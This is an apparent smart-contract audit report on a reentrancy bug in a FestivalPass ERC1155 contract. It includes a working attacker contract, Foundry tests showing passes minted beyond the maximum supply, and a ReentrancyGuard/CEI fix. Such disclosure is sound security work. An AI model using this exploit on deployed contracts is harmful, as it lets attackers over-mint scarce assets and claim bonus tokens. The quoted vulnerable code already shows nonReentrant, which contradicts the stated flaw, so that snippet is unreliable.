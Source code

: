 # Reentrancy attack in `FestivalPass::buyPass` allows attendee to buy extra passes to the event

## Description

The `FestivalPass::buyPass` function does not follow CEI and as a result enables a malicous user to buy more passes than allowed in `passMaxSupply[collectionId]`.

```solidity
   function buyPass(uint256 collectionId) external payable nonReentrant {
        require(collectionId == GENERAL_PASS || collectionId == VIP_PASS || collectionId == BACKSTAGE_PASS, "Invalid pass ID");
        require(msg.value == passPrice[collectionId], "Incorrect payment amount");
        require(passSupply[collectionId] < passMaxSupply[collectionId], "Max supply reached");
@>      _mint(msg.sender, collectionId, 1, "");
@>      ++passSupply[collectionId]; 
        uint256 bonus = (collectionId == VIP_PASS) ? 5e18 : (collectionId == BACKSTAGE_PASS) ? 15e18 : 0;
        if (bonus > 0) {
            BeatToken(beatToken).mint(msg.sender, bonus);
        }
        emit PassPurchased(msg.sender, collectionId); 
    }
```

An attendee who wants extra passes to an **almost** sold out event could have a `onERC1155Received` function that calls the `FestivalPass::buyPass` function again and mint another pass. They could continue to cycle this for as many passes as they want to pay for.

## Risk

**Likelihood:**

This vulnerability has Medium likelihood due economic barrier, but would otherwise be High for these reasons:

1. Only requires attacker to write a custom smart contract
2. Does not require privileged access or insider info
3. ERC1155 standard behavior (mint → onERC1155Received) is well-known, and exploitable if CEI is not followed
4. Easily testable off-chain or on testnet

**Impact:** 
1. Scarcity and Trust Are Broken: Users trust that only passMaxSupply (VIP passes) will exist.  If a hacker mints more, the smart contract breaks its core guarantee.  This damages your reputation and could lead to legal or financial consequences.
2. Monetary Loss: Passes could come with perks or value (e.g. backstage access, NFT rewards).  They might claim extra BEAT bonuses or attend exclusive events without permission.
3. On-chain Imbalances and Accounting Errors: Logic might rely on passSupply staying within passMaxSupply. 
4. Event Spam or Performance Abuse: Over-minted passes let the attacker spam events

## Proof of Concept

1. Attacker writes a contract with `onERC1155Received()` that calls `FestivalPass::buyPass()` again.
2. They call `FestivalPass::buyPass()` once.
3. Because `msg.sender` is a smart contract, OpenZeppelin’s `_mint()` detects this and explicitly calls `IERC1155Receiver(msg.sender).onERC1155Received()`.
4. The attacker's `onERC1155Received()` function then performs a reentrant call to `buyPass()` again, while the previous call has not yet updated storage.
5. That reentrant call passes all `require()` checks (because supply not updated).
6. Another `_mint()` happens.
7. Another call...
8. Repeats until passMaxSupply is bypassed or DoS-style mint spam occurs.

**Proof of Code:**

Add the following contract:

```solidity
import {IERC1155Receiver} from "@openzeppelin/contracts/token/ERC1155/IERC1155Receiver.sol";

contract MaliciousBuyer is IERC1155Receiver {
    FestivalPass public festival;
    uint256 public passId;
    uint256 public buyCount;
    uint256 public passPrice;

    constructor(FestivalPass _festival, uint256 _passId) payable {
        festival = _festival;
        passId = _passId;
    }

    // Callback from _mint
    function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes calldata
    ) external override returns (bytes4) {
        if (buyCount < 1) {
            buyCount++;
            // Use stored price instead of msg.value
            festival.buyPass{value: passPrice}(passId);
        }
        return this.onERC1155Received.selector;
    }

    function onERC1155BatchReceived(
        address,
        address,
        uint256[] calldata,
        uint256[] calldata,
        bytes calldata
    ) external pure override returns (bytes4) {
        return this.onERC1155BatchReceived.selector;
    }

    function supportsInterface(bytes4 interfaceId) external pure override returns (bool) {
        return interfaceId == type(IERC1155Receiver).interfaceId;
    }

    function attack(uint256 price) external payable {
        require(msg.value == price, "Wrong ETH sent");
        passPrice = price; // store for reentrant use
        festival.buyPass{value: price}(passId);
    }

    receive() external payable {}
}
```

Add this test which fails, showing the vulnerability:

```solidity
    function test_Reentrancy_BuyPass_OverMints() public {
        uint256 GENERAL_PASS = 1;
        uint256 MAX_SUPPLY = 1;
        vm.prank(organizer);
        festivalPass.configurePass(GENERAL_PASS, GENERAL_PRICE, MAX_SUPPLY);

        MaliciousBuyer attacker = new MaliciousBuyer{value: GENERAL_PRICE}(festivalPass, 1);

        attacker.attack{value: GENERAL_PRICE}(GENERAL_PRICE);

        assertEq(festivalPass.balanceOf(address(attacker), GENERAL_PASS), MAX_SUPPLY, "Attacker was able to mint more than max supply!");
    }
```

## Recommended Mitigation

To fix this, implement one or both of these:

1. Use nonReentrant (OpenZeppelin’s `ReentrancyGuard`): This is the cleanest and safest approach, and solves the problem even if the order stays the same.
2. Reorder to follow CEI: Move the state update before `_mint()`.

```diff
+import {ReentrancyGuard} from "@openzeppelin/contracts/utils/ReentrancyGuard.sol";
 
-contract FestivalPass is ERC1155, Ownable2Step, IFestivalPass {
+contract FestivalPass is ERC1155, Ownable2Step, IFestivalPass, ReentrancyGuard {
     address public beatToken;
```

```diff
     // Buy a festival pass
-    function buyPass(uint256 collectionId) external payable {
+    function buyPass(uint256 collectionId) external payable nonReentrant {
         // Must be valid pass ID (1 or 2 or 3)
```

Add this test:

```solidity
   function test_Reentrancy_BuyPass_NoMints() public {
        uint256 GENERAL_PASS = 1;
        uint256 MAX_SUPPLY = 1;
        vm.prank(organizer);
        festivalPass.configurePass(GENERAL_PASS, GENERAL_PRICE, MAX_SUPPLY);

        MaliciousBuyer attacker = new MaliciousBuyer{value: GENERAL_PRICE}(festivalPass, 1);

        // Now reentrancy is blocked — full tx reverts
        vm.expectRevert(ReentrancyGuard.ReentrancyGuardReentrantCall.selector);
        attacker.attack{value: GENERAL_PRICE}(GENERAL_PRICE);

        // Because the whole tx reverted, attacker minted 0 tokens
        assertEq(festivalPass.balanceOf(address(attacker), 1), 0, "Attacker unexpectedly received tokens");
   }
```

